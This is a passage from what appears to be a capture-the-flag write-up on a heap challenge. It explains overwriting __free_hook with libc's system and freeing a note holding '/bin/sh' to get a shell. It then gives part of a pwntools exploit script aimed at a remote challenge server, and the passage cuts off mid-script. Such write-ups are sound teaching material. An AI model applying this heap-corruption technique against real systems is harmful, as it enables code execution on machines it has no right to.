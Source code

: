     edit_note(1, 0x38, data + fake_chunk)
    edit_note(2, 0x8, p64(libc_sys_addr))
    ```
    ![](https://imgur.com/dSw1vms.png)
    Note that, the data of `note` structure is a pointer that point to a space that system malloc. Thus, `edit_note` function will modify the pointed space, so that `edit_note(b'2\n', b'8\n', p64(libc_sys_addr))` will modify `[free_hook_addr]` instead of `index 2`.
    ![](https://imgur.com/ycuFgwR.png)
    
4. Delete `index 1` and call `__free_hook`
When we free `index 1` and `__free_hook` is not NULL, then `__free_hook` can be a function pointer to execute `0x7ffbb6500290` that is `__libc_system` and the parameter is `index 1` data, that is `/bin/sh\x00`
    ```python!
    delete_note(1)
    ```

5. Well, we got shell!!
![](https://imgur.com/PJGAAba.png)

* Whole exploit
    :::spoiler code
    ```python=
    from pwn import *

    # r = process('./chal')
    r = remote('edu-ctf.zoolab.org', 10007)

    context.arch = 'amd64'

    def add_note(idx, note_name):
        r.sendafter(b'> ', b'1')
        r.sendlineafter(b'index\n> ', str(idx))
        r.sendafter(b'note name\n> ', note_name)

    def edit_note(idx, note_size, message):
        r.sendafter(b"> ", b"2")
        r.sendlineafter(b'index\n> ', str(idx))
        r.sendlineafter(b'size\n> ', str(note_size))
        r.send(message)

    def delete_note(idx):
        r.sendafter(b"> ", b"3")
        r.sendlineafter(b'index\n> ', str(idx))

    def show_note():
        r.sendafter(b"> ", b"4")

    '''------------------
    Construct heap memory
    ------------------'''
    add_note(0, b'a'*8)
    edit_note(0, 0x418, b'a')
